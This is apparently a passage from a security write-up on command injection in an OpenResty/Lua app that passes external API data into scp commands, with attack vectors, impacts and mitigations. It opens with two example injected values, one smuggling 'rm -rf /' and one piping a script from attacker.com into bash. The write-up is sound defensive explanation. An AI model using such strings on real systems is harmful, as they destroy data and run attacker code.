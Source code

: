 `scp report.txt; rm -rf / user@internal-server:/tmp/`

or

`scp 'report.txt && curl attacker.com/exfil.sh | bash' user@internal-server:/tmp/`

This allows the attacker to execute arbitrary commands on the `internal-server`.

**Attack Vectors:**

*   **Compromised External API:** If the external API itself is compromised, it could inject malicious data into its responses.
*   **Man-in-the-Middle (MITM) Attack:** An attacker could intercept and modify the API response before it reaches the Lua application.
*   **Injection via User Input (Indirect):**  While the direct command injection might not be from user input to the OpenResty application itself, user input could influence the `api_url` or other parameters that eventually lead to fetching malicious data.
*   **Configuration Vulnerabilities:** If configuration files or environment variables used to define external system interactions are vulnerable to injection, this could lead to the same outcome.

**Impact Assessment:**

The impact of a successful command injection in this context can be severe:

*   **Compromise of External Systems:** Attackers can gain unauthorized access and control over the external systems being interacted with.
*   **Data Breach:** Sensitive data stored on the external systems can be accessed, exfiltrated, or modified.
*   **Denial of Service (DoS):** Attackers can disrupt the operation of the external systems, potentially impacting the functionality of the OpenResty application.
*   **Lateral Movement:** Compromised external systems can be used as a stepping stone to attack other internal resources.
*   **Reputational Damage:** Security breaches can severely damage the reputation and trust associated with the application and the organization.

**Mitigation Strategies:**

*   **Input Validation and Sanitization:**  Thoroughly validate and sanitize all data received from external systems before using it to construct commands. This includes:
    *   **Whitelisting:**  Define allowed characters, formats, and values for the expected data.
    *   **Blacklisting (Less Effective):**  Block known malicious characters or patterns, but this is often bypassable.
    *   **Encoding/Escaping:**  Properly escape special characters that have meaning in the target command interpreter (e.g., shell). Lua's `string.gsub` can be used for this, but careful consideration of the target system's escaping rules is crucial.
*   **Avoid Constructing Commands from External Data:**  Whenever possible, avoid directly incorporating external data into command strings. Consider alternative approaches:
    *   **Predefined Commands with Parameters:** Use predefined commands or scripts where external data is passed as parameters in a safe manner (e.g., using parameterized queries for databases).
    *   **Abstraction Layers:**  Utilize libraries or APIs that abstract away the direct command execution, providing safer interfaces.
*   **Principle of Least Privilege:**  Ensure that the OpenResty application and the user accounts it uses to interact with external systems have the minimum necessary permissions. This limits the potential damage if an attack is successful.
*   **Secure Configuration Management:**  Protect configuration files and environment variables from unauthorized access and modification.
*   **Regular Security Audits and Code Reviews:**  Conduct regular reviews of the Lua code to identify potential command injection vulnerabilities.
*   **Use Secure Communication Protocols:**  Ensure that communication with external systems is encrypted using HTTPS or other secure protocols to prevent MITM attacks.
*   **Content Security Policy (CSP):** While primarily for web browsers, CSP can offer some indirect protection by limiting the sources from which the application can load resources, potentially mitigating some attack vectors.
*   **Consider using sandboxing or containerization:**  Isolate the OpenResty application within a container or sandbox to limit the impact of a successful attack.
